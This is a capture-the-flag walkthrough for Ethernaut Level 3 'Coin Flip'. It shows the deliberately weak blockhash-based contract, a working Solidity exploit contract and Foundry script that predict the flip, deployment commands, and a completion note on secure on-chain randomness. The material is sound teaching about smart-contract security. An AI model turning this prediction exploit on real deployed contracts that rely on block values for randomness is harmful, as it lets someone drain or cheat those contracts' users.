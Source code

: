 # Level 3 - Coin Flip ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/3" %}

### Level Setup

{% hint style="info" %}
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/CoinFlip.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```
{% endcode %}

### Exploit

This exploit is possible because the coinflip isn't random but deterministic. By copying the same logic that's used to determine the result and executing it in the same block just before guessing, you can guess correctly every time.

1. Run the same calculation and use the result to call the CoinFlip contract already deployed.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-3

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/src/Level3.sol" %}

{% code title="src/Level3.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract CoinFlipGuess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function flip(address _targetContractAddress) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(_targetContractAddress).flip(side);
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level3.s.sol" %}

{% code title="script/Level3.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";
import {CoinFlipGuess} from "../src/Level3.sol";

interface ICoinFlip {
    function consecutiveWins() external returns (uint256);
}

// ================================================================
// │                      LEVEL 3 - COIN FLIP                     │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        ICoinFlip targetContract = ICoinFlip(targetContractAddress);

        if (targetContract.consecutiveWins() < 10) {
            vm.startBroadcast();

            CoinFlipGuess coinFlipGuess = new CoinFlipGuess();
            coinFlipGuess.flip(targetContractAddress);

            vm.stopBroadcast();
        } else {
            revert("Already won 10 times");
        }

        console.log("consecutiveWins: %s", targetContract.consecutiveWins());
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org/)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).
{% endhint %}

### Notes

* The real challenge is getting the script to run 10 times.
* This was hard to do in foundry with a real blockchian, but would have been easy to test on anvil simply by advancing the block by one then calling it again.
